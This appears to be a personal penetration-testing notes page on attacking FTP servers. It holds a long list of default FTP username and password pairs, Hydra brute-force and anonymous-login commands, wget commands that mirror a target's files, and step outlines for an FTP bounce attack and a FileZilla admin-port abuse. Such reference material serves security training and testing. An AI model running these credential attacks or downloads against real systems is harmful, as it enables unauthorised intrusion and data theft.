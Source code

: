 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/FTP/Exploitation
links: "[[FTP]]"
---
```


# FTP Exploitation

<!-- Common Credentials {{{-->
## Common Credentials

FTP default credential examples

```
anonymous : anonymous
_anonymous :
_ftp : ftp
admin : admin
root : root
ftpuser : ftpuser
test : test
```

<!-- FTP Default Password List {{{-->
> [!example]-
> FTP Default Password List
>
> [GitHub - SecLists - ftp-betterdefaultpasslist.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)
> ```sh
> anonymous:anonymous
> test:test
> root:root
> administrator:administrator
> ftpuser:ftpuser
> root:rootpasswd
> root:12hrs37
> ftp:b1uRR3
> admin:admin
> localadmin:localadmin
> admin:1234
> apc:apc
> admin:nas
> Root:wago
> Admin:wago
> User:user
> Guest:guest
> ftp:ftp
> admin:password
> a:avery
> admin:123456
> adtec:none
> admin:admin12345
> none:dpstelecom
> instrument:instrument
> user:password
> root:password
> default:default
> admin:default
> nmt:1234
> admin:Janitza
> supervisor:supervisor
> user1:pass1
> avery:avery
> IEIeMerge:eMerge
> ADMIN:12345
> beijer:beijer
> Admin:admin
> admin:1234
> admin:1111
> root:admin
> se:1234
> admin:stingray
> device:apc
> apc:apc
> dm:ftp
> dmftp:ftp
> httpadmin:fhttpadmin
> user:system
> MELSEC:MELSEC
> QNUDECPU:QNUDECPU
> ftp_boot:ftp_boot
> uploader:ZYPCOM
> ftpuser:password
> USER:USER
> qbf77101:hexakisoctahedron
> ntpupdate:ntpupdate
> sysdiag:factorycast@schneider
> wsupgrade:wsupgrade
> pcfactory:pcfactory
> loader:fwdownload
> test:testingpw
> webserver:webpages
> fdrusers:sresurdf
> nic2212:poiuypoiuy
> user:user00
> su:ko2003wa
> MayGion:maygion.com
> admin:9999
> PlcmSpIp:PlcmSpIp
> ```
<!-- }}} -->
<!-- }}} -->

<!-- Anonymous Login {{{-->
## Anonymous Login

Anonymous login

```sh
ftp <ip>
>anonymous # Username
>anonymous # Password
>binary # Set transmission to binary
>ascii # Set transmission to ASCII
>bye # Exit
```

> [!example]-
> Anonymous Login example
>
>```sh
>ftp -p 10.129.42.253
>```
>
>```sh
>Connected to 10.129.42.253.
>220 (vsFTPd 3.0.3)
>Name (10.129.42.253:user): anonymous
>230 Login successful.
>Remote system type is UNIX.
>Using binary mode to transfer files.
>```

Download all files

```sh
wget -m ftp://anonymous:anonymous@<target_ip>
```

```sh
wget -m --no-passive ftp://anonymous:anonymous@<target_ip>
```
<!-- }}} -->

<!-- Brute Force {{{-->
## Brute Force

Brute Force FTP login with Hydra

```sh
hydra -l {target_user} -P {password_list} <target_ip> ftp
```

```sh
hydra -L {users_list} -p {password} ftp://<target_ip>
```

> [!tip]
>
> Try [[Exploitation#Common Credentials|FTP Common Credentials]] and other
> [password lists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)
<!-- }}} -->

<!-- FTPBounce Attack {{{-->
## FTPBounce Attack

Some FTP servers allow the command `PORT`, that can be used to instruct the
server to connect to another FTP servers at a specified port. This behavior can
be exploited to scan which ports on a target host are open through an FTP
server.

[HackTricks - FTP Bounce Attack - Scan](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-ftp/ftp-bounce-attack.html)

This behavior can be abused to make an FTP server interact with other protocols.
A file (containing a HTTP request) can be uploaded to the FTP server and sent to
an arbitrary HTTP server:

1. **Upload the request** (in a *txt* file) to the server.
   To talk with another HTTP or FTP server, the line endings need to be changed
   to `0x0d` `0x0a`

2. **Use** `REST X` **to avoid sending unwanted characters**

3. **Use** `PORT` **to connect to the arbitrary server and service**

4. **Use** `RETR` **to send the saved request to the server**

**NOTE**: It's highly possible that this will throw an error (e.g. *Socket not
writeable*), as the connection doesn't last long enough to send the data with
`RETR`. To avoid this:

- **Put the same request on after another** ([like this](https://book.hacktricks.wiki/en/files/posts.txt))
  until ~0.5MB, if sending the same HTTP request
- **Fill the request with "junk" data** relative to the protocol
- **Fill the request with a lot of null characters**

<!-- }}} -->

## FileZilla Server Vulnerability

**[FileZilla](https://filezilla-project.org/) Server** usually binds to the
local administrative TCP port `14147`. If it is possible to create a tunnel
from the attacker machine to this port:

- Authenticate using a blank password
- Create a new user for the FTP service

<!-- FTP Post-Exploitation {{{-->
# FTP Post-Exploitation

Download all files

```sh
wget -r --user="USERNAME" --password="PASSWORD" ftp://<server_address>/
```
<!-- }}} -->
